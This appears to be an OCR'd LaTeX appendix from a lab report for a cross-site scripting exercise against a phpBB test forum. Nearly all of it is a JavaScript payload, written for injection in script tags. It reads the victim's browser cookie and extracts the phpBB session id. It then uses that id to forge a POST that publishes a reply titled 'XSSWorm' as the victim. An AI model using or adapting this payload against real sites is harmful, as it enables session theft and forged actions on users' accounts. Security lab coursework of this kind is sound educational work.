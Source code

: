 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}
\end{lstlisting}


\section{JavaScript for forging message.\label{app:javasc1}}

\lstset{
  captionpos=b,
  frame=single,
  language=JavaScript,
  breaklines=true,
  caption="JavaScript for forging message.",
  label=parta:script
}
\begin{lstlisting}
<script>
var Ajax=null;
// Construct the header information for the Http request
Ajax=new XMLHttpRequest();
Ajax.open("POST","http://www.xsslabphpbb.com/posting.php",true);
Ajax.setRequestHeader("Host","www.xsslabphpbb.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

// Steal cookie
var valueSearched = "phpbb2mysql_sid=";

// Find where mysql sid is 
var indexOfSid = document.cookie.indexOf(valueSearched);

// Move the string behind mysql_sid=
indexOfSid += valueSearched.length;

// Check if there is a semicolon at the end, we only want one parameter from cookie
var semicolonIndex = document.cookie.indexOf(";", indexOfSid);

var stolenCookie = "";

if(semicolonIndex == -1) {
  stolenCookie = document.cookie.slice(indexOfSid);
} else {
  stolenCookie = document.cookie.slice(indexOfSid, semicolonIndex);
}

// Construct the content. The format of the content can be learned
// from LiveHttpHeader. All we need to fill is subject, message, and sid.
var content="subject=XSSWorm"; // You need to fill in the details.

// Add message body
content += "&message=Attack";

// Choose topic number
content += "&t=8";

// Add session id stolen from cookie
content += "&sid=" + stolenCookie; // e.g. 642b0037b1b4f81a4141e8fb505e50f6

// Specify posting mode
content += "&mode=reply";
content += "&post=Submit";
// Send the HTTP POST request.
Ajax.send(content);
</script>
\end{lstlisting}


\end{appendices}
\end{document}
